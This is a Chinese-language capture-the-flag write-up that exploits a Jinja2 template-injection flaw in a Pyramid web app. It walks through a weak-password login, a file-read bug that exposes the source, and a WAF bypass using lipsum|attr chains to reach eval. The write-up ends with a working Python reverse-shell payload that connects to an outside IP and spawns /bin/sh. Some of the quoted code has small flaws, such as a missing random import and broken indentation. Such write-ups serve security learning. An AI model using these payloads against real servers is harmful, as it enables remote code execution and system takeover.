




# Pyramid 框架SSTI分析RCE-先知社区

> **来源**: https://xz.aliyun.com/news/16037  
> **文章ID**: 16037

---

## Pyramid 框架SSTI分析RCE

以今天打比赛遇到的新 Pyramid框架打SSTI作详细分析

admin/123456弱密码登录之后发现文件读取漏洞

```
?file=/app/app.py
```



app.py

```
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
from Captcha import captcha_image_view, captcha_store
import re
import os

class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password

users = {"admin": User("admin", "123456")}

def root_view(request):
    # 重定向到 /login
    return HTTPFound(location='/login')

def info_view(request):
    # 查看细节内容
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    file_name = request.params.get('file')
    file_base, file_extension = os.path.splitext(file_name)
    if file_name:
        file_path = os.path.join('/app/static/details/', file_name)
        try:
            with open(file_path, 'r', encoding='utf-8') as f:
                content = f.read()
                print(content)
        except FileNotFoundError:
            content = "文件未找到。"
    else:
        content = "未提供文件名。"

    return {'file_name': file_name, 'content': content, 'file_base': file_base}

def home_view(request):
    # 主路由
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    detailtxt = os.listdir('/app/static/details/')
    picture_list = [i[:i.index('.')] for i in detailtxt]
    file_contents = {}
    for picture in picture_list:
        with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as f:
            file_contents[picture] = f.read(80)

    return {'picture_list': picture_list, 'file_contents': file_contents}

def login_view(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        user_captcha = request.POST.get('captcha', '').upper()

        if user_captcha != captcha_store.get('captcha_text', ''):
            return Response("验证码错误，请重试。")
        user = users.get(username)
        if user and user.password == password:
            request.session['username'] = username
            return Response("登录成功！&lt;a href='/home'&gt;点击进入主页&lt;/a&gt;")
        else:
            return Response("用户名或密码错误。")
    return {}

def shell_view(request):
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result != None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')


def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  # 添加渲染模板
        config.add_static_view(name='static', path='/app/static')
        config.set_default_permission('view')  # 设置默认权限为view

        # 注册路由
        config.add_route('root', '/')
        config.add_route('captcha', '/captcha')
        config.add_route('home', '/home')
        config.add_route('info', '/info')
        config.add_route('login', '/login')
        config.add_route('shell', '/shell')
        # 注册视图
        config.add_view(root_view, route_name='root')
        config.add_view(captcha_image_view, route_name='captcha')
        config.add_view(home_view, route_name='home', renderer='home.pt', permission='view')
        config.add_view(info_view, route_name='info', renderer='details.pt', permission='view')
        config.add_view(login_view, route_name='login', renderer='login.pt')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')

        config.scan()
        app = config.make_wsgi_app()
        return app


if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()

```

再读一下captcha.py

```
import string
from PIL import Image, ImageDraw, ImageFont
import io
from pyramid.response import Response

captcha_store = {}

class Captcha:
    def __init__(self, width=150, height=50, length=4):
        self.width = width
        self.height = height
        self.length = length
        self.font = ImageFont.truetype("/usr/share/fonts/truetype/dejavu/DejaVuSans-Bold.ttf", 40)

    def generate_captcha_text(self):
        # 生成 4 位数字验证码
        return ''.join(random.choices(string.digits, k=self.length))

    def generate_captcha_image(self, text):
        # 生成柔和的背景颜色（随机的浅色背景）
        background_color = (
            random.randint(200, 255),
            random.randint(200, 255),
            random.randint(200, 255)
        )
        image = Image.new('RGB', (self.width, self.height), background_color)
        draw = ImageDraw.Draw(image)

        # 绘制验证码文本
        for i, char in enumerate(text):
            position = (10 + i * (self.width - 20) // self.length, random.randint(5, 10))
            font_color = (random.randint(0, 100), random.randint(0, 100), random.randint(0, 100))  # 深色字体
            draw.text(position, char, font=self.font, fill=font_color)

        buffer = io.BytesIO()
        image.save(buffer, format="PNG")
        buffer.seek(0)
        return buffer

    def get_captcha(self):
        captcha_text = self.generate_captcha_text()
        image_buffer = self.generate_captcha_image(captcha_text)
        return captcha_text, image_buffer

def captcha_image_view(request):
    global captcha_store
    captcha = Captcha()
    captcha_text, image_buffer = captcha.get_captcha()
    captcha_store['captcha_text'] = captcha_text  # 存储验证码
    return Response(body=image_buffer.getvalue(), content_type='image/png')

```

审计代码发现shell路由有SSTI漏洞，但是waf过滤了数字还有点号并且无回显

```
blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
```

本地搭建调试环境，便于绕过waf

```
from pyramid.config import Configurator  
from pyramid.httpexceptions import HTTPFound  
from pyramid.response import Response  
from pyramid.session import SignedCookieSessionFactory  
from wsgiref.simple_server import make_server  
import re  
import jinja2   
import os  

def shell_view(request):  
   expression = request.GET.get('shellcmd', '')  
    blacklist_patterns = [r'.*length.*']  
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):  
        return Response('wafwafwaf')  
    try:  
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})  
        if result != None:  
            return Response(result)  
        else:  
            return Response('error')  
    except Exception as e:  
        return Response('error')  


def main():  
    session_factory = SignedCookieSessionFactory('secret_key')  
    with Configurator(session_factory=session_factory) as config:  
        config.include('pyramid_chameleon')    
config.set_default_permission('view')    
config.add_route('shell', '/shell')  
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')  
        config.scan()  
        app = config.make_wsgi_app()  
        return app  


if __name__ == "__main__":  
    app = main()  
    server = make_server('0.0.0.0', 6543, app)  
    server.serve_forever()

```

其中main函数注册路由如下

```
def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  
        config.set_default_permission('view')  
        config.add_route('shell', '/shell')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')
        config.scan()
        app = config.make_wsgi_app()
        return app

```

1. **`config.include('pyramid_chameleon')`**：

   * 这行代码将 `pyramid_chameleon` 包包含到 Pyramid 应用配置中。
   * `pyramid_chameleon` 是一个 Pyramid 扩展，它允许使用 Chameleon 模板引擎来渲染模板。
   * 通过这行代码，你可以在应用中使用 `.pt` 文件作为模板。
2. **`config.set_default_permission('view')`**：

   * 这行代码设置应用的默认权限为 `'view'`。
   * 默认权限意味着所有视图（除非特别指定其他权限）都需要具有 `'view'` 权限才能访问。
   * 这有助于实现基本的权限控制，确保未授权用户无法访问某些资源。
3. **`config.add_route('shell', '/shell')`**：

   * 这行代码定义了一个名为 `'shell'` 的路由，对应的 URL 路径是 `'/shell'`。
   * 路由名称 `'shell'` 可以在其他地方引用，例如在视图函数中通过 `route_name` 参数来关联视图和路由。
4. **`config.add_view(shell_view, route_name='shell', renderer='string', permission='view')`**：

   * 这行代码注册了一个视图函数 `shell_view`，并将其与前面定义的 `'shell'` 路由关联起来。
   * `renderer='string'` 表示视图函数返回的内容将直接作为字符串响应返回给客户端。
   * `permission='view'` 表示访问这个视图需要 `'view'` 权限，这与前面设置的默认权限一致。
5. **`config.scan()`**：

   * 这行代码扫描当前模块（或指定的包），自动发现并注册装饰器定义的视图和其他组件。
   * 使用 `config.scan()` 可以简化视图注册过程，避免手动注册每个视图。

app不是flask框架而是pyramid，所以我们可以仿照路由上的操作传参绕过  
注意：和flask框架的传参不一样

```
request.GET.get('shell')

```



刚开始用的bash反弹shell发现没bash 然后用curl和wget也都没有



先用lipsum拿到eval用|attr绕过点号

```
{{ lipsum|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')}}

```

因为题目禁用了数字和点，我们可以通过二次传参绕过waf

```
shellcmd={{ lipsum|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')(request|attr('GET')|attr('get')('shell')) }}

```

我们换为python 用sh反弹shell

```
shellcmd={{ lipsum|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')(request|attr('GET')|attr('get')('shell')) }}

&shell=__import__('os').system("python -c \"import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('124.220.37.173',2333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\"")

```


